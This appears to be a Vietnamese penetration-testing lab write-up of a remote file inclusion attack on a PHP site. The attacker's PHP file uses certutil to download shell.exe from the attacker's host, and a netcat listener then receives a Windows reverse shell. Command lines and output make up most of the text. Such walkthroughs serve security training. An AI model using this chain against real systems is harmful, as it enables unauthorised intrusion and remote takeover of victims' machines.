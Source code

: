 Code PHP sau đây sẽ tải shell xuống target:

```
┌──(kali㉿kali)-[~]
└─$ cat pwn.php
<?php
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.68/shell.exe" shell.exe', $val);
?>
```

Thực thi script PHP và thực hiện tải xuống.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/pwn.php                
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Thông báo log máy chủ web chỉ ra rằng target đã tải xuống file.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.68.53 - - [19/Dec/2020 13:03:55] "GET /info.php HTTP/1.0" 200 -
192.168.68.53 - - [19/Dec/2020 13:05:49] "GET /info.php HTTP/1.0" 200 -
192.168.68.53 - - [19/Dec/2020 13:09:48] "GET /pwn.php HTTP/1.0" 200 -
192.168.68.53 - - [19/Dec/2020 13:09:51] "GET /shell.exe HTTP/1.1" 200 -
192.168.68.53 - - [19/Dec/2020 13:09:52] "GET /shell.exe HTTP/1.1" 200 -
```

Bây giờ có thể sửa đổi tệp `pwn.php` để thực thi reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ cat pwn.php 
<?php
$exec = system('shell.exe', $val);
?>
```

Khởi động trình lắng nghe netcat trên cổng 445, sau đó kích hoạt reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/pwn.php
```

Listener cho biết đã nhận được shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvvvp 445
listening on [any] 445 ...
192.168.68.53: inverse host lookup failed: Host name lookup failure
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.53] 49719
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>
```
